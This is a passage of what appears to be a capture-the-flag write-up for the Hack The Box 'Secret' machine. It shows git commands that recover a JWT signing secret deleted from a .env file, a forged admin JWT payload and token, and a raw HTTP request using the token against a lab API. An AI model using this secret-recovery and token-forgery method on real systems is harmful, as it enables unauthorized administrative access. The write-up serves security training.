 ```
de0a46b5107a2f4d26e348303e76d85ae4870934 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 dasithsv <dasithsv@gmail.com> 1630648817 +0530        commit: removed .env for security reasons
67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 e297a2797a5f62b6011654cf6fb6ccb6712d2d5b dasithsv <dasithsv@gmail.com> 1631126007 +0530        commit: now we can view logs from server 😃
```
Immedietly the version 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 looks interesting becuase it removed .ev for security reasons. If you remember, thats where we found the "secret" token password. So by viewing this we could see whats the security risk.

```
┌──(kali㉿kali)-[~/Documents/HTB/secret/local-web]
└─$ git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret

```
We have the secret token!
Now we can craft our JWT and get a token where our name is theadmin.
# Exploit
So head over to the JWT online decoder and craft the token. The values I'm choosing are:
```
{
  "_id": "6205894901291c0464dfdf16",
  "name": "theadmin",
  "email": "TGC@nowhere.com",
  "iat": 1644530070
}
```
As we know, nothing else but the key and name really matters.
Therefore by using this token at /auth/priv we get the following:
```html
GET /api/priv/ HTTP/1.1
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type:application/json
Auth-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjA1ODk0OTAxMjkxYzA0NjRkZmRmMTYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6IlRHQ0Bub3doZXJlLmNvbSIsImlhdCI6MTY0NDUzMDA3MH0.9mP1WrnMqAlNANivAR19Cn6vNTaPF_MBgTvOSYd9zow
Content-Length: 6

{
    "key":"doesntmatter"
}

```
